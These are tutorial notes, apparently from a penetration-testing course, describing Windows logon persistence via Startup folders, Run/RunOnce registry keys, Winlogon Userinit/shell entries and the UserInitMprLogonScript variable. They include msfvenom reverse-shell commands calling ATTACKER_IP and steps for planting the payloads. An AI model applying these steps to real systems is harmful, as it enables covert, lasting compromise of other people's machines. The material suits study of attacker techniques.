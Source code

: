 # Logon triggered persistence

Windows operating systems present several ways to link payloads with particular interactions.

## Startup folder

Every user has a `Startup` folder: 

    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup 

where each user can put executables to be run whenever they log in. Each user will only run whatever is available 
in their folder. An attacker can achieve persistence just by dropping a payload in there. 

If we want to force all users to run a payload while logging in, we can use the folder: 

    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

Generate a reverse shell payload using `msfvenom`:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe

Copy the payload into the target machine by spawning an `http.server` with Python and using `wget` on the target 
machine to download the file. Start listener on port 4450.

Store it in the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for 
any user logging into the machine:

    copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

Sign out of the session from the start menu (closing an RDP window is not enough as it leaves the session open), 
and log back in via RDP to receive a connection back to the attack machine.

## Run/RunOnce

Instead of delivering a payload into a specific directory, you can also use the following registry entries to 
specify applications to run at logon:

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. 
Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the 
`RunOnce` keys will only be executed a single time.

Create a reverse shell with msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe

After transferring it to the victim machine, move it to `C:\Windows\`:

    move revshell.exe C:\Windows

Create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name 
can be anything, and the value is the command we want to execute.        

Start a listener, sign out of the current session and log in again, and you should receive a shell.

## Winlogon

Another alternative to automatically start programs on logon is abusing `Winlogon`, the Windows component that 
loads a user's profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that can be 
used to gain persistence:

* `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
* `shell` points to the system's shell, which is usually `explorer.exe`.

Replacing any of the executables with a reverse shell break sthe logon sequence, but you can append commands 
separated by a comma, and Winlogon will process them all.

## Logon scripts

One of the things `userinit.exe` does while loading a user profile is to check for an environment variable called 
`UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get 
run when logging into the machine. The variable is not set by default, so we can just create it and assign any 
script we like.

Create a reverse shell, put it anywhere, create an environment variable for a user, go to its `HKCU\Environment` 
in the registry. Use the `UserInitMprLogonScript` entry to point to the payload for it to get loaded when the 
user logs in.

Set up a listener, sign out of the current session and log in again.
